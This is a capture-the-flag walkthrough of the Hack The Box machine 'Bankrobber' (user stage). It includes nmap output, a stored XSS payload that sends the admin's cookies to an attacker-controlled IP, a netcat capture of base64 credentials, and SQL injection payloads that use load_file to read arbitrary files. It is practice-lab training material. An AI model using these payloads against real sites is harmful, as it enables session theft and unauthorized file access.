 ```yaml
---
title: bankrobber user 
author: fieldraccoon
date: 2020-07-09
categories: [hack-the-box, windows]
tags: [hack-the-box, sqli, xxs, xsrf, javascript]
math: true
---
```


Bankrobber overall was a very unstable box and due to that it was very fiddly to get a shell and get root so i will go over the methodology of the xss and sqli in depth for the user section.

Of course we start off with an nmap:
```bash
kali@kali:~/boxes/bankrobber$ nmap -sC -sV -o nmap 10.10.10.154
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-08 06:13 EDT
Nmap scan report for 10.10.10.154
Host is up (0.034s latency).
Not shown: 996 filtered ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
443/tcp  open  ssl/http     Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql        MariaDB (unauthorized)
Service Info: Host: BANKROBBER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h03m36s, deviation: 0s, median: 1h03m36s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-08T11:17:56
|_  start_date: 2020-07-08T11:07:41
```

It showed us port `3306` on `mysql` and `445` on `smb`, we tried to connect to both of theese but were noth closed via a password protection.

Port `80` however was indeed usefull.

When visited with the site i made an account with the credentials `field:field` and loged in. Here we were greeted with a transaction page which in our case is bitcoin. There is 3 boxes for information, an id box a recipitent id box and a comment. The comment box will be abused here.

When we give it a test with random values we get a poppup about an admin reviewing it, indicating that there is an admin on the website that we can possibily exploit. 

We create a file on our box with the contents:
`hello.php`:
```php
<?php ?>
```
This file can have any contents it just needs to be a file on the server.

Next we will try and steal the admin credentials by using this file as a connection to our box and then with a listener try and read the cookies.

On the bitcoin bank website we fill out the form with any id and in the contents section we add this:
```javascript
<script>new Image().src="http://10.10.xx.xx/hello.php?output="+document.cookie;</script>
```
This simple XSS will make a connectin to our ip address and try connect to the file but in fact will be redirected by a listener and reveal the contents of the request.

We send this request and on our box we get a connection back:

```bash
ali@kali:~/boxes/bankrobber$ sudo nc -nlvp 80
[sudo] password for kali:                                                                                          
listening on [any] 80 ...                                                                                          
connect to [10.10.xx.xx] from (UNKNOWN) [10.10.10.154] 49744                                                        
GET /hello.php?output=username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1 HTTP/1.1                
Referer: http://localhost/admin/index.php                                                                          
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1 
Accept: */*                                                                                                        
Connection: Keep-Alive                                                                                             
Accept-Encoding: gzip, deflate                                                                                     
Accept-Language: nl-NL,en,*                                                                                        
Host: 10.10.xx.xx
```

We can see here that we are given a line of credentials
```bash
output=username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1
```

We decode the username and the password from base64 and read the creds in plaintext.
```bash
kali@kali:~/boxes/bankrobber$ echo YWRtaW4= | base64 -d                                                            
adminkali@kali:~/boxes/bankrobber$ echo SG9wZWxlc3Nyb21hbnRpYw== | base64 -d                                       
Hopelessromantickali@kali:~/boxes/bankrobber$
```

Then we can login with `admin:Hopelessromantic` and get access to the admin panel.

From here we can experiment with sqli to read the backdoor.php which is in control of the backdoor command on the site and what we will use to get a shell(although not in this post.)

When we type `1' or 1=1 -- -` we get presented with a panel of all the users being admin and our own user.

We can now contruct an SQL query to read the user flag.

```sql
10' UNION SELECT 1,load_file('c:\\users\\cortin\\desktop\\user.txt'),3;-- -
```
We can also cahnge the file path and read any file that we want. including the backdoor.php file which helps us build our js script to pop a shell.

Thanks for reading hope that you enjoyed.
